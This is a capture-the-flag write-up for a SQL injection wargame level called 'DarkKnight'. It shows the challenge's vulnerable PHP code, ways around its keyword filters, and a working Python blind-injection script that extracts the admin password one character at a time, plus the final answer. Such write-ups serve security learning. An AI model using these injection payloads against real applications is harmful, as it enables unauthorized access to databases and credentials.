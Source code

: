# **DarkKnight**

```
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

I haven't found the method to escape the `$_GET[no]"; ` then injecting the `$_GET[pw]` just like before.

So, this script is focus on injecting the `$_GET[no]`, which has more restrict than `$_GET[pw]`.

Accroding to `preg_match('/\'|substr|ascii|=/i', $_GET[no])`, `=` should change to `like` and some reason I still trying to findout that hex/ascii problem of this site, `admin` should change to `0x61646D696E`.

```
import urllib.parse
import http.client

HTTP=http.client.HTTPConnection("los.eagle-jump.org")
Url="/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?no="
Headers={"Cookie":"__cfduid=[your Own cfduid]; PHPSESSID=[your Own PHPSESSID]"} #check your own cookie then insert the correct value to make connection success, or you will get nothing return.
Passwd=""

pwNotInChar = False
for i in range(len(Passwd)+1,100):
    for c in "0123456789abcdefghijklmnopqrstuvwxyz+":

        Payload="1 || id like 0x61646D696E && mid(pw,"+str(i)+",1) like "+str(hex(ord(c)))

        HTTP.request("GET",Url+urllib.parse.quote(Payload),"",Headers)

        print (Payload)
                
        if (b"Hello admin" in HTTP.getresponse().read()):
            Passwd+=c
            print ("[+] Found: %c" % c)

            HTTP.request("GET",Url+urllib.parse.quote(Passwd),"",Headers)
            if (b"Clear" in HTTP.getresponse().read()):
                print ("[*] Password: %s" % Passwd)

            break
        if (str(c) == "+"):
            pwNotInChar = True
            break
    if(pwNotInChar == True):
        break
    
print ("[!] Not Found")
print ("[*] Password: %s" % Passwd)
```

![](https://i.imgur.com/namBCBU.png)

The final payload is : 
`?pw=1c62ba6f`
